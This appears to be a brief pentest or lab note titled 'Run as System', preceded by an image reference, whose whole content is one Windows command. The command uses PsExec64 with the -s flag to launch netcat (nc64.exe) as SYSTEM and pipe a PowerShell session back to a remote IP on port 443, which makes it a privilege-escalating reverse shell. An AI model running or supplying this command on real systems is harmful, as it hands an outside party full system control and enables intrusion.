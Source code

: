 # Run as System

```
.\PsExec64.exe -accepteula -s -i C:\Users\mane\Documents\nc64.exe -e powershell 10.10.17.89 443
```
